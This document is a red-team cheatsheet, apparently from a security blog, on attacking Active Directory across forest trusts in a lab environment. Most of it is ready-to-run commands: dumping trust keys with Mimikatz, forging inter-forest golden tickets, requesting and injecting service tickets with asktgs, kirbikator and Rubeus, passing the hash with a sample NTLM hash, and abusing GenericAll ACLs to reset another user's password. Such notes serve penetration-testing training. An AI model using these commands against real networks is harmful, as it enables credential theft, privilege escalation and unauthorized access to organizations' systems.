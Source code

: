 ```yaml
---
title: Across Forests cheatsheet
subtitle: Active Directory forests are the highest level of security boundary for network objects in the Active Directory tree and forest structure. Within this Active Directory hierarchy, a forest is considered the most important logical container in an Active Directory configuration.

# Summary for listings and search engines
summary: Active Directory forests are the highest level of security boundary for network objects in the Active Directory tree and forest structure. Within this Active Directory hierarchy, a forest is considered the most important logical container in an Active Directory configuration.

# Link this post with a project
projects: []

# Date published
date: '2022-09-15T00:00:00Z'

# Date updated
lastmod: '2022-09-15T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**Giovanni Pecoraro**](https://unsplash.com/photos/CpkOjOcXdUY)'
  focal_point: ''
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - Red Teaming
  - Windows
  - Active Directory
  - Forests
  
categories:
  - Cyber Security

---
```


## Using Trust Tickets

Trust relationship across forests needs to be established (are not implicit) since a forest is a security boundary. We can only access resources and/or services that have been shared with the domain we have compromised (our source domain). Use e.g BloodHound to look for foreign group memberships between forests.

1. Once again, we require the trust key for the inter-forest trust:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
    # or
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
    ```
    
2. An inter-forest TGT can be forged:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:cd3fb1b0b49c7a56d285ffdbb1304431 /service:krbtgt /target:evilcorp.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi
    ```
    
3. Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket. Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.
    
    ```powershell
    # asktgs.exe
    .\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/evilcorp-dc.evilcorp.local
    ```
    
4. Use the TGS to access the targeted service.
    
    ```powershell
    # kirbikator.exe
    .\kirbikator.exe lsa .\CIFS.evilcorp-dc.evilcorp.local.kirbi
    ```
    
5. Now you can access the trusted forest shares:
    
    ```powershell
    ls \\evilcorp-dc.evilcorp.local\forestshare
    ```
    
Alternatively, it is possible to use `Kekeo` to ask for the TGS:

```powershell
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:CIFS/evilcorp-dc.evilcorp.local /dc:evilcorp-dc.evilcorp.local /ptt
```

## Search for Foreign Security Prinicpals

1. To search for Foreign Security Principals (users who have joined groups in the trusted domain but are part of the first domain) we can use the below PowerView command:
    
    ```powershell
    # PowerView
    Find-ForeignUser -Domain "evilcorp.local" -Verbose
    Find-ForeignGroup -Domain "evilcorp.local" -Verbose
    ```
    
2. We get an ObjectSID that we have to search in our current domain to see if it exists:
    
    ```powershell
    # PowerView
    Get-NetUser | ?{$_.objectsid -eq "S-1-5-21-738119705-704267045-3387619857-1275"}
    ```
    
3. The ObjectSID corresponds to STUDENT2. Let’s impersonate STUDENT2 who is a user of the domain cybercorp.local:
    
    ```powershell
    # Invoke-Mimikats
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:STUDENT2 /domain:cybercorp.local /ntlm:6b164d3b190489426e9bcb4a01df5b53 /run:powershell.exe"'
    ```
    
4. Then we can access the other forest:
    
    ```powershell
    ls \\evil-dc.evilcorp.local\c$
    ```
    
## Search for interesting ACLs

1. Search for interesting ACLs in the evilcorp.local forest filtering the results belonging to users in our current domain:
    
    ```powershell
    Invoke-ACLScanner -Domain evilcorp.local | ?{$_.IdentitySID -match "S-1-5-21-738119705-704267045-3387619857"}
    ```
    
2. The user STUDENT1 in our cyberlab.cybercorp.local has GenericAll rights on STUDENT3 in evilcorp.local. This means, interesting stuff, like password reset can be done on STUDENT3 (using Powerview dev):
    
    ```powershell
    # PowerView_dev
    Set-DomainUserPassword -Identity STUDENT3 -AccountPassword (ConvertTo-SecureString "Password@123" –AsPlainText -Force) -Domain evilcorp.local -Verbose
    ```
---